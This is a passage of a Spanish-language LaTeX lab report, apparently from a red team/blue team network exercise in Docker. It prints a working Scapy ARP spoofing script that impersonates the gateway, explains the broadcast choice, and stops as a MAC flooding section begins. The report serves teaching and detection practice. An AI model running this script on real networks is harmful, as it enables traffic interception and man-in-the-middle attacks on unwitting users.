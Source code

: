 \documentclass[12pt, a4paper]{article}
\begin{document}
\subsection{Fase 3: Herramientas de Ataque (Red Team)}

\subsubsection{ARP Spoofing (arp\_spoof.py)}

La herramienta de ARP Spoofing implementa el envenenamiento de tablas ARP en modo \textit{broadcast}. Se opt\'o por enviar los ARP Reply falsos a la direcci\'on de difusi\'on (\texttt{ff:ff:ff:ff:ff:ff}) en lugar de unicast, por dos razones: (1) asegurar que todos los hosts de la red actualicen sus tablas ARP, y (2) permitir que el Blue Team pueda detectar los paquetes falsificados.

\begin{lstlisting}[style=pythonstyle, caption={Fragmento principal de arp\_spoof.py}]
from scapy.all import Ether, ARP, sendp
import time

def arp_spoof(target_ip, spoofed_ip, iface="eth0"):
    """
    Envia ARP Replies falsificados en modo broadcast.
    target_ip: IP de la victima
    spoofed_ip: IP que se quiere suplantar (gateway)
    """
    packet = (
        Ether(dst="ff:ff:ff:ff:ff:ff") /
        ARP(
            op="is-at",         # ARP Reply
            psrc=spoofed_ip,    # "Yo soy el gateway"
            pdst=target_ip      # Dirigido a la victima
        )
    )
    while True:
        sendp(packet, iface=iface, verbose=False)
        time.sleep(2)  # Enviar cada 2 segundos
\end{lstlisting}

\begin{infobox}
El modo broadcast (\texttt{dst="ff:ff:ff:ff:ff:ff"}) es esencial en redes switched. En un switch (f\'isico o virtual como el bridge de Docker), los paquetes unicast solo llegan al puerto de destino. Al usar broadcast, el paquete ARP falso alcanza todos los puertos, incluyendo el del Blue Team.
\end{infobox}

\subsubsection{MAC Flooding (mac\_flood.py)}

El ataque de MAC Flooding genera tramas Ethernet con direcciones MAC aleatorias para saturar la tabla CAM:
\end{document}
